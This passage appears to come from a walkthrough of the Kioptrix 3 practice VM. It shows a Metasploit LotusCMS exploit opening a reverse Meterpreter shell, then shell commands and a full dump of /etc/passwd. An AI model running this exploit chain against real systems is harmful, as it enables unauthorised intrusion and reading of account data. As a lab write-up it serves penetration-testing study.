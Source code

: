 
Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf exploit(lcms_php_exec) > set RHOST kioptrix3.com
RHOST => kioptrix3.com
msf exploit(lcms_php_exec) > set URI /
URI => /
msf exploit(lcms_php_exec) > exploit 

[*] Started reverse handler on 192.168.80.137:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Sending stage (40499 bytes) to 192.168.80.145
[*] Meterpreter session 1 opened (192.168.80.137:4444 -> 192.168.80.145:54507) at 2015-04-25 20:16:36 +0200
{% endcodeblock %}

We invoke a few commands to obtain the shell and upload weevely.
{% codeblock %}
meterpreter > sysinfo
Computer    : Kioptrix3
OS          : Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
Meterpreter : php/php

meterpreter > shell
Process 4662 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
